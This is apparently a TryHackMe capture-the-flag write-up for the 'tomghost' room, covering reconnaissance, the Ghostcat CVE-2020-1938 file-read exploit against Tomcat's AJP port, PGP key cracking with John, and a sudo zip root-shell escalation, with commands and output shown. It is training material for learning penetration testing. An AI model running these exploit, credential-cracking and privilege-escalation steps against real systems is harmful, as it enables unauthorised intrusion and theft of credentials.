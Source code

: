 ```bash
# PLATFORM          . THM
# CTF NAME          . tomghost
# DESCRIPTION       . Identify recent vulnerabilities to try exploit the system or read files that you should not have access to.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/tomghost
```

```bash
sudo nmap -sSVC -T5 10.10.129.164 -p- -oN tomghost
```

```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3c89f0b6ac5fe95540be9e3ba93db7c (RSA)
|   256 dd1a09f59963a3430d2d90d8e3e11fb9 (ECDSA)
|_  256 48d1301b386cc653ea3081805d0cf105 (ED25519)

53/tcp   open  tcpwrapped

8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS

8080/tcp open  http       Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- The webserver is running the default installation on Apache Tomcat 9.0.30 and it seems that we don't have access to `/manager` page.

```
By default the Manager is only accessible from a browser running on the same machine as Tomcat. If you wish to modify this restriction, you'll need to edit the Manager's context.xml file. 
```

- I had no idea what AJP is, and after a bit of research, here's what I found.

- AJP is a protocol that allows a standalone webserver (eg: apache) talk to Tomcat. 
  
- This communication, by default, is done on port 8009, which we see it is already open on our target. 

- Tomcat 9.0.30 (what we have installed) can be vulnerable to what's called `Ghostcat` - LFI vulnerability, somewhat restricted, that allows files from a certain path to be pulled. 

- Depending on the server setup, this might be enough to leak credentials or other sensitive information. 

- And here's the exploit: [CVE-2020-1938](https://nvd.nist.gov/vuln/detail/CVE-2020-1938)

- This worked out of the box, except with few code modifications. I had to replace

```python
self.stream = self.socket.makefile("rb", bufsize=0)

with

self.stream = self.socket.makefile("rb")

and 

print("".join([d.data for d in data]))

with 

print("".join([d.data.decode('utf-8') for d in data if d.data]))
```

- After this, I ran the script as `python3 exploit.py IP`

```
Getting resource at ajp13://10.10.129.164:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
	skyfuck:8730281lkjlkjdqlksalks
  </description>

</web-app>
```

- We got our credentials :) SSH in to the box.

```
Sorry, user skyfuck may not run sudo on ubuntu.
```

```
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```

- All we had to do is to import the key and decrypt the `.pgp` file.

```
gpg --import tryhackme.asc
gpg --decrypt credential.pgp 
```

- But...

```
You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
```

- We need to call Mr. John for some expertise here, so let's copy the files to our local machine. I've used `scp` from my host

```
scp skyfuck@10.10.129.164:/home/skyfuck/credential.pgp credential.pgp
scp skyfuck@10.10.129.164:/home/skyfuck/tryhackme.asc tryhackme.asc
```

- Then, I've used `/opt/john/run/gpg2john tryhackme.asc > crack`

- And then `/opt/john/run/john crack` ; Passphase is `alexandru`.

- Back to our compromised box, running `pgp --decrypt credential.pgp` reveals the credentials for user `merlin`

```
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

- Merlin is able to run `/usr/bin/zip` as root.

```
User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

- This can be used to spawn a root shell. 

```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

- The last flag is in `/root/root.txt`
